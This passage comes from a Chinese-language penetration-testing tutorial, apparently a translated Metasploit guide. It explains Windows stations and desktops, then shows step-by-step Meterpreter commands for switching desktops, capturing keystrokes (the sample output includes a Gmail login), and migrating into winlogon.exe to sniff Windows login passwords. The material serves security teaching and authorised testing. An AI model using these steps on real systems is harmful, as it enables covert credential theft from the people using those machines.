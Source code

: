 每个 Windows 桌面会话包括不同的站。在前面的图中，您可以看到与 Session 0 相关的不同站。在这些站中，WinSta0 是唯一的交互式站。这意味着用户只能与 WinSta0 站互动。所有其他站都是非交互式的。现在 WinSta0 包括三个不同的桌面，即 Default、Disconnect 和 Winlogon。默认桌面与我们在桌面上执行的所有应用程序和任务相关联。`Disconnect`桌面与屏幕保护程序锁定桌面有关。Winlogon 桌面与 Windows 登录屏幕有关。

这里需要注意的一点是每个桌面都有自己的键盘缓冲区。因此，如果您必须从`Default`桌面中嗅探按键记录，您必须确保您当前的 meterpreter 活动浏览器设置为`Session 0/WinSta0/Default`。如果您必须嗅探登录密码，那么您将不得不将活动桌面更改为`Session 0/WinSta0/Winlogon`。让我们举个例子来让它更清楚。

让我们使用`getdesktop`命令检查我们当前的桌面：

```
meterpreter > getdesktop
Session 0\Service-0x0-3e7$\Default 
```

正如您所看到的，我们不在`WinSta0`站，这是唯一的交互式桌面站。因此，如果我们在这里运行按键捕获，它不会返回任何结果。让我们将我们的桌面更改为`WinSta0\Default`：

```
meterpreter > setdesktop
Changed to desktop WinSta0\Default
meterpreter > getdesktop
Session 0\WinSta0\Default 
```

前面的命令行显示我们使用`setdesktop`命令切换到了交互式 Windows 桌面站。因此，现在我们已经准备好运行按键记录嗅探器来捕获用户在目标机器上按下的按键：

```
meterpreter > keyscan_start
Starting the keystroke sniffer...
meterpreter > keyscan_dump
Dumping captured keystrokes...
gmail.com <Return> daklord <Tab> 123123 
```

查看转储的按键记录，您可以清楚地识别出目标用户访问了[gmail.com](http://gmail.com)并输入了他的凭据进行登录。

如果您想嗅探 Windows 登录密码怎么办？显然，您可以使用`setdesktop`命令将您的活动桌面切换到`WinSta0\Winlogon`，但在这里我们也将讨论另一种方法。我们可以迁移到在 Windows 登录期间运行的进程。让我们执行`ps`命令来检查正在运行的进程。

您会发现`winlogon.exe`作为一个带有进程 ID 的进程在运行。让我们假设`winlogon.exe`的**进程 ID（PID）**为`1180`。现在让我们迁移到这个 PID 并再次检查我们的活动桌面：

```
meterpreter > migrate 1180
[*] Migrating to 1180...
[*] Migration completed successfully.
meterpreter > getdesktop
Session 0\WinSta0\Winlogon 
```

您可以看到我们的活动桌面已更改为`WinSta0\Winlogon`。现在我们可以运行`keyscan_start`命令来开始嗅探 Windows 登录屏幕上的按键记录。

同样，我们可以通过迁移到运行在默认桌面上的任何进程来返回到默认桌面。考虑使用 PID `884`的`explorer.exe`：

```
meterpreter > migrate 884
[*] Migrating to 884...
[*] Migration completed successfully.
meterpreter > getdesktop
Session 0\WinSta0\Default 
```
